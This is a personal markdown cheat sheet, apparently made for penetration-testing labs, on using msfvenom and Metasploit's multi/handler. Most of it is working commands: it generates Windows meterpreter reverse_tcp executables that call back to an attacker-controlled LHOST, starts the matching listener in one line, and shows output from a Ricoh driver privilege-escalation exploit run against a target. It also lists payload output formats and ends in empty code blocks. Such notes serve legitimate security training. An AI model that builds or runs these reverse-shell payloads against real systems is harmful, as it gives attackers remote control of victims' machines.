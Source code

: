 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

- [Syntax](#syntax)
- [32 bit](#32-bit)


# [Syntax](#syntax-1)
(not case sensitive, variable can be used for LHOST)
```sh
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -o <OUTPUT>
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -e <ENCODER> -i <ENCODE COUNT> -o <OUTPUT>
```

## [32 bit](#32-bit-1)
```sh
myip=127.0.0.1
port=3232
msfvenom -p windows/meterpreter/reverse_tcp lhost="$myip" lport="$port" -f exe -o rev.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler) in One Liner
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST "$myip";set LPORT "$port";run;"
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

### list all payloads
```
msfvenom -l payloads
```

## Common Mistake

### The payload should use the same architecture as the target driver
```sh
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```

## 
```sh
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

## 
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

## 
```sh
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### Options:
```sh
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
   --list-options               List --payload <value>'s standard, advanced and evasion options

-f, --format          <format>   Output format (use --list formats to list)
```

### list format; -lf or -l -f or --list format (if you like to type)
```sh
$ msfvenom -lf

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs                                                                                                                         
    macho                                                                                                                            
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
    masm
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```